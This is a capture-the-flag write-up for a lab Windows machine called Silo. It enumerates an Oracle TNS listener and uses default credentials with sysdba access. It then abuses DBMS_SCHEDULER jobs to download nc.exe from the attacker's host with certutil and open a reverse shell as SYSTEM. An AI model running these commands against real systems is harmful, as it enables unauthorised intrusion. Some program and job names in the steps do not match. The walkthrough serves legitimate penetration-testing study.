



# Silo

### Reconnaissance

[Nmap scan](./silo.nmap)

**RPC**

Access denied when trying to connect with a null session

**SMB**

No anonymous or guest access, system information from NetExec:

NetExec smb enum: `Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)`

**Oracle TNS Listener**

A quick google for Oracle TNS listener shows this hacktricks post: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

They suggest using odat: https://github.com/quentinhardy/odat

Enumerating the service with odat gives us two SIDs, `XE` and `XEDB`, and some default credentials `scott/tiger`

```bash
./odat all -s 10.10.10.82
./odat all -s 10.10.10.82 -d XE -U scott -P tiger
```

Further enumeration with the credentials doesn't give us any more information

This [secybr post](https://secybr.com/posts/oracle-pentesting-best-practices/) mentioned in hacktricks gives us lots more enumeration options and several methods for RCE 
with user credentials

First, we need to install sqlplus and set some environment variables:

```bash
# install sqlplus
sudo apt install oracle-instantclient-sqlplus

# find the directory from the sqlplus symlink for ORACLE_HOME env var
file $(which sqlplus)
/usr/bin/sqlplus: symbolic link to ../lib/oracle/19.6/client64/bin/sqlplus

# path or version may be different
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
```

We can connect to both SIDs with the default credentials with system database privileges

Connect to XE or XEXDB with system database privileges

```bash
sqlplus <user>/<password>@10.10.10.82/<SID> 'as sysdba';
```

**Exploitation**

The target doesn't have Java installed so the first method won't work, but we can use the DBMS_SCHEDULER to 
create jobs and schedule them to get RCE on the target. We will not get back any output from the command
execution so sanity checking is a good idea!

First host the nc.exe binary using python:

```bash
python -m http.server 80
```

Then create a job to download the nc.exe binary with certutils in sqlplus:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2002','EXECUTABLE','c:\Windows\system32\certutil.exe -urlcache -f http://10.10.10.2/nc.exe c:\nc.exe',0,TRUE);
```

Now schedule the job to run immediately:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```



Start a netcat listener on the attacking machine:

```bash
nc -lnvp 443
```

Create a job to run the nc.exe binary to connect to our attacker machine:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2003','EXECUTABLE','c:\nc.exe 10.10.10.2 443 -e cmd.exe',0,TRUE);
```

Finally, schedule the job to run immediately and get a reverse shell on the target:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```



### Privilege Escalation

Running `whoami` gives us an error as if it wasn't installed on the machine. If we navigate to system32 we 
can run it and discover we have SYSTEM privileges



### Lessons Learned

- Always try to connect to Oracle TNS listeners with 'as sysdba'
- When scheduling tasks with DBMS_SCHEDULER use binaries we know will be installed on the target in 
predictable locations
- Sanity checking when using scheduled tasks is important as we don't get any output from the executed commands
